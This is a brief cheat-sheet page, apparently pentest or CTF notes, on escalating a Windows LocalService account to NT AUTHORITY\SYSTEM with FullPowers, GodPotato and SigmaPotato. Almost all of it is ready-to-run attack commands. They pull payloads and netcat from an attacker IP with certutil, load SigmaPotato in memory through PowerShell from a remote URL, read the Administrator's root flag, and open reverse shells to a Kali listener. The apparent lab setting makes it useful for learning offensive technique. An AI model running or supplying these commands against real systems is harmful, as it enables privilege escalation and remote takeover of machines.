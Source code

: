 # Local Service to SYSTEM

### A 'Service Account' to become a NT AUTHORITY/SYSTEM

[https://itm4n.github.io/localservice-privileges/](https://itm4n.github.io/localservice-privileges/)

{% code overflow="wrap" %}
```bash
# https://itm4n.github.io/localservice-privileges/
# With this tool, we can abuse a schedule task function to get the all default privilege back including the SeImpersonatePrivilege. 

CMD> FullPowers.exe
CMD> whoami /priv


# Got Potato
# https://github.com/BeichenDream/GodPotato
CMD> certutil -urlcache -split -f http://10.10.14.16/GodPotato-NET4.exe
CMD> GodPotato-NET4.exe -cmd "cmd /c whoami"
CMD> GodPotato-NET4.exe -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"

CMD> certutil -urlcache -split -f http://10.10.14.16/nc.exe
Kali> rlwrap nc -nlvp 1235
CMD> GodPotato-NET4.exe -cmd "nc.exe -t -e C:\Windows\System32\cmd.exe 10.10.14.16 1235"

# SigmaPotato
# https://github.com/tylerdotrar/SigmaPotato
CMD> powershell
[System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData("http://10.10.14.16/SigmaPotato.exe"))

Kali> rlwrap nc -nlvp 1236
CMD> [SigmaPotato]::Main(@("--revshell","10.10.14.16","1236"))
```
{% endcode %}
